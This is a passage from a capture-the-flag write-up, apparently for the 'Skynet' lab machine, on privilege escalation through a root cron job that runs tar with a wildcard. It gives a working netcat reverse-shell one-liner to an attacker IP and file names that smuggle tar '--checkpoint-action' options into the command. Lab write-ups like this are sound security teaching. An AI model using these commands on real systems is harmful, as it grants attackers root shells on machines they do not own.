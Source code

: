### Privilege Escalation

There is a `cronjob` running on every minute.
```shell
cat /etc/crontab
```
Root user run `/home/milesdyson/backups/backups.sh` on every minute. `backup.sh` have the following content.
```shell
www-data@skynet:/home/milesdyson/backups$ ll
total 1640
-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4413440 Aug 16 09:58 backup.tgz
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

There they backup everything in `/var/www/html` diretory to `backup.tgz`. But they use wildcard in command and this is vulnerable to wildcard injection.
We can get shell by running the following command in `/var/www/html` directory

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.186.33 5555 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"
```

What they are doing is they make a file in `/var/www/html` directory with the name `--checkpoint-action=exec=sh shell.sh`,`/var/www/html/--checkpoint=1` and `shell.sh` which have our reverse shell.
So when the cron job run `tar` command take that directory name as a arguments and they execute our shell command because of `--checkpoint-action=exec=sh shell.sh` and In that shell command they execute our reverse shell script. They give us Reverse Shell.
> **Note**: You have to start listener using `nc -lvnp 5555` Command so you can catch the reverse shell.

